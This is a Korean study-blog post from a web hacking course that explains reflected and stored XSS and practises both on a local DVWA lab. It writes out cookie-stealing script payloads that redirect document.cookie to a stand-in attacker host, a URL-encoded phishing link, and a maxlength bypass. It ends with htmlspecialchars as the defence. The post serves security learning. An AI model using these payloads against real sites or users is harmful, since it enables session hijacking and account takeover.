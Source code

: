 ```yaml
---
title:  '[강의] 6주차 웹 해킹- 웹 해킹 기술 탐색 5'
excerpt: "week6"

categories:
  - study
  - etc
  - hacking
tags: [study, etc, virtualbox, kalilinux, hacking]

last_modified_at: 2021-07-31T08:06:00-05:00
classes: wide
--- 
```


### 8주간의 해킹 스터디 다섯번째 시간

6주차 스터디😽😽😽

강의링크는 오른쪽! => [goormedu](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)

<br>

이번 시간은 스크립트 코드 삽입을 통해 개발자가 고려하지 않은 기능이 작동하게 하는 치명적인 공격인 **크로스사이트스트리밍(XSS) 공격**에 대해 알아보겠습니다. 

<hr>

### XSS 공격

XSS공격에 대해 알아보기 전 XSS에서 사용하는 언어인 **자바스트립트 언어**에 대해서 알아보도록 합니다 🙋🏽!!

#### - 자바스크립트 (JS)

웹어플리케이션에서 사용되는 언어 HTML과 자바스크립트로 이루어져있음

> HTML : 텍스트, 이미지 등 정적인 내용 표시
> 
> 자바스크립트 : 동적인 기능을 구현 ( ex) 마우스를 가져가면 메뉴의 색이 변하는 것 )

JS 사용 방법!
~~~
<script>  script code    </script>
~~~ 


#### XSS 공격이란?

클라이언트 쪽의 웹브라우저를 공격하는 기법이다. 

만약 어떤 웹브라우저 기능이 입력값을 그대로 출력하는 것이라면, <script>와 같은 입력값이 그대로 웹페이지에 표시되면 위험하다. 
  
해커는 이 자바스크립트를 이용해 세션 쿠키를 알아내 탈취하게 되는 것이다.

#### XSS공격 2가지
> 1. reflected XSS
>
> 2. stored XSS
  
<br>
  
#### 1. Reflected XSS 공격
 
reflected는 script를 반사하기 때문에 붙여진 이름이다. 공격 순서를 알아보도록 한다.

먼저 해커가 한 사용자에게 이메일 등으로 피싱을 한다.
  
![1](https://user-images.githubusercontent.com/53431568/127724126-1218ea01-9dec-4acc-89d2-931aaaed49aa.PNG)

<br>
  
이때, 사용자가 피싱에 속아 클릭을 하게 되면 스크립트 코드가 삽입된 요청이 전송된다.
  
![2](https://user-images.githubusercontent.com/53431568/127724129-3d0a9ede-6cea-426b-8886-a526547ca6ad.PNG)

<br>
  
웹 어플리케이션은 스크립트 코드를 반사시켜 그대로 되돌려준다. 이렇게 되면 웹 브라우저는 스크립트를 실행하게 되고 얻어낸 쿠키를 해커에게 전달하게 된다.

![3](https://user-images.githubusercontent.com/53431568/127724134-af31a433-2e05-479d-8d6a-18a293cd9062.PNG)

<br>

해커가 얻어낸 세션 쿠키를 사용되면 해당 사용자의 계정으로 접속할 수 있게 된다.
  
![4](https://user-images.githubusercontent.com/53431568/127724131-8e03fa4f-29b5-49f3-88fc-a93cbb1da238.PNG)

  
  
#### 2. Stored XSS 공격

script코드가 한 번 저장되었다가 나중에 실행되는 공격!
  
먼저, 해커가 피싱을 하는 것이 아니라 서버의 게시판이나 방명록 같은 곳에 스크립트 코드를 남긴다.
  
![image](https://user-images.githubusercontent.com/53431568/127724500-9e13c762-5561-4e5f-9621-20b171b958b1.png)

<br>

이후 사용자가 방명록에 접속해 글을 읽게 되면 글을 읽은 사용자에게 스크립트 코드가 실행된다.

![image](https://user-images.githubusercontent.com/53431568/127724518-56784bb0-41e9-4ef1-8160-fccd2e574f91.png)

<br>
  
이 이후는 reflected XSS 공격과 같이 쿠키값이 해커에게 전달되고 해커는 해당 사용자의 계정으로 접속할 수 있게 된다.

![image](https://user-images.githubusercontent.com/53431568/127724536-c2e840d8-a148-470f-8a89-56f7bc683d8c.png)

 
### XSS 공격 실습 🚀
#### 1. Reflected

먼저, `low`단계에서 실습! XSS(Reflected) 메뉴로 가면 다음과 같이 이름을 입력하는 웹브라우져가 실행된다.

![image](https://user-images.githubusercontent.com/53431568/127726951-17cb7939-486a-4efc-9275-4fcf6591b1fa.png)

이름을 입력하니 입력한 값이 다시 리턴되는 것을 볼 수 있다.

![image](https://user-images.githubusercontent.com/53431568/127727006-15841c20-3608-4aee-9286-1eb2a12449a1.png)

XSS 취약점을 찾기 위한 가장 간단한 방법은 script 태그를 입력폼에다 입력하는 것이다! 
  
`<script>alert(1)</script>`  명령어를 입력하니 다음과 같이 알림창이 뜨는 것을 확인하였다!! 이를 통해서 해커는 reflected xss 공격이 가능하다는 것을 파악하게 된다.  

![image](https://user-images.githubusercontent.com/53431568/127727055-81d832b0-9b44-4dbd-9ee4-3b72247a8a09.png)

이번에는 쿠키값을 알아보자!
  
`<script>alert(document.cookie)</script>` 입력하니 쿠키의 값이 출력되었다. 

![image](https://user-images.githubusercontent.com/53431568/127727115-08e82497-fe2e-4317-9d21-c1948b7314a4.png)


<br><br>

이번에는 알아낸 쿠키값을 해커가 관리하는 시스템과 같은 다른 시스템에 전달해보자!!!

먼저 터미널을 켜고 `tail -f /opt/lampp/logs/acess_log' 명령어를 통해 해커 호스트의 웹서버의 로그가 출력되는 것을 확인하고, 이후 발생하는 로그도 계속 확인하도록 한다.

![image](https://user-images.githubusercontent.com/53431568/127727168-3cb70cb9-fe82-42fa-8bea-0cdee6504cb0.png)

다음으로  `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>` 명령어를 reflected xss의 입력창에 입력해준다.

> 명령어를 해석하면, document.loaction은 뒤에 나오는 127.0.0.1 인 (지금 해커사이트라고 가정하는 주소)에 리다이렉트를 시켜주며, document.cookie 명령어를 이용해 cookie값을 찍어오게 된다.

아래 이미지를 보니, 입력한 후 터미널에 쿠키값이 넘겨진 것을 확인할 수 있다.  
  
![image](https://user-images.githubusercontent.com/53431568/127727310-fb7ec7ab-6814-40ce-b007-454e63ddb0da.png)
  

  <br>
  <br>
  
  
그런데 드는 의문이.. 개발자도 아니고 어떤 사용자가  <script></script> 를 직접 입력하려나..?! 😅😅😅

따라서 해커는 피싱을 이용해서 사용자가 자기도 모르는 새에 걸려들도록 한다고 한다! ㅎㅎ 그렇다면 간단한 피싱용 메일을 만들어보자!

처음과 같이 이름을 입력하고 이번에는 주소창을 주목! 파라미터 값으로 이름이 전달되는 것을 확인할 수 있다. 이름과 #을 제외한 주소를 복사하자! ctrl + v!  
  
  ![image](https://user-images.githubusercontent.com/53431568/127727435-ccef162e-0164-427b-9614-02ab7cc07f10.png)

  <br>  
  
  이제 피싱링크를 넣을 건데 아까 복사한 주소 뒤에 다음 명령어를 붙여준다. `<script>document.location%3D'http://127.0.0.1/cookie%3F'%2Bdocument.cookie</script>`
  
  뭔가 이상함을 감지했나요?! ㅎㅎ `= , ? , + ' 라는 문자들이 '%3F, %3F, %2B` 로 인코딩되었습니다. 이 이유는  gmail에서 링크를 삽입할때는 url인코딩 기법을 이용해서 인코딩을 거쳐야 하기 때문입니다.!!  주의주의~ 😊😊
  
  
  최종적으로 입력해야할 링크 코드는 다음과 같다.
  
  ~~~javascript
  http://localhost/dvwa/vulnerabilities/xss_r/?name=<script>document.location%3D'http://127.0.0.1/cookie%3F'%2Bdocument.cookie</script>
  ~~~
  
![image](https://user-images.githubusercontent.com/53431568/127727655-9fdc0205-7917-450e-85bf-41ddbfbe517a.png)

위와 같이 했다면 이메일을 보내고 체크! 내가 보낸 메일을 열고 링크를 클릭하니 아까와 같이 터미널 창에 쿠키값이 전달되는 것을 확인할 수 있었다.

![image](https://user-images.githubusercontent.com/53431568/127727771-cec42aa0-36b8-482e-b8fa-6c518d4eb2d4.png)

<br><br>
  
#### 2. Stored XSS
  
해커가 스크립트 코드를 서버에 직접 삽입한다. 때문에 해당 페이지를 방문하는 모든 사용자가 위험에 노출되는 무서운 공격이다.

dvwa의 Stored XSS 메뉴로 들어가면 방명록을 작성하는 것과 같은 페이지를 보게되는데 이때, 테스트 텍스트를 넣어보자! 나는 다음과 같이 아까 사용한  `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>` 코드를 입력하니 뒤에 글자 제한 때문에 코드가 잘린 것을 볼 수 있다. 
  
![image](https://user-images.githubusercontent.com/53431568/127727913-e7cf860b-e476-4070-877c-c26deb1f8fc5.png)

이런 글자 수 제한은 간단히 우회할 수 있는데.. 입력창에서 마우스 오른쪽 클릭을 한 후 inspect element를 보면 아래에 창이 뜬다. 자세히 보면 maxlength 라는 파라미터가 있는데 이 값을 변경해 주면된다.!


나는 50-> 500으로 넉넉히 변경해주었다. 이제 입력이 가능하다! 

![image](https://user-images.githubusercontent.com/53431568/127727995-1e97c99b-6f2e-4f22-8dbc-626dbbb56fbb.png)

방명록에 입력후 버튼을 누르자 마자 바로 스크립트가 실행된다. 이는, 이 글이 있는 방명록 페이지에 접속하자 마자 스크립트가 실행되는 것이다. 

![image](https://user-images.githubusercontent.com/53431568/127728071-7b2d8eb7-32f2-4e72-88ba-6f3e3647a88a.png)

터미널을 확인하니 페이지에 방문하기만 해도 쿠키값이 넘어가는 것을 확인할 수 있었다.

![image](https://user-images.githubusercontent.com/53431568/127728104-96a029ea-da93-4bb9-8d4d-0a828d2fe204.png)

이런식으로 해커는 하나의 공격으로 다수의 사용자들을 공격할 수 있게 된다. 

<br><br>
  
### XSS 공격 대응 👨‍🏫

impossible 단계의 소스코드를 보면서 알아보자
  
![image](https://user-images.githubusercontent.com/53431568/127728266-50c4bf64-d38b-4f00-b04d-5fae57d83e74.png)
  
소스코드를 보니 `htmlspecialchars` 라는 함수를 사용하는데 이 함수는 몇몇 함수를 html entity 라는 것으로 변경하는 함수이다.
  
이를 통해서 페이지 상에서는 script 코드가 그냥 들어간 것 같지만 뒤에서는 이 코드를 **`다른 문자로 변경하여 실제로 코드 실행을 방지`**할 수 있게 한다.

실제로 restored reflect 페이지에서 `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>`를 submit 한 수, 페이지 빈 공간에서 
오른쪽 클릭을 한 후 View source를 확인해보면..
  
  ![image](https://user-images.githubusercontent.com/53431568/127728429-ed9e35a5-4165-4455-86bf-556184084438.png)

  다음과 같이 몇몇 문자가 다른 문자로 바뀐 것을 확인할 수 있다! (`&lt` 와 같은 전혀 다른 의미를 내포하는 명령어로 교체됨)

  ![image](https://user-images.githubusercontent.com/53431568/127728396-832a08f1-2f16-42b9-a171-9d9b9e493f67.png)

  
  
#### 이미지 출처
  
[https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)
  
  
  
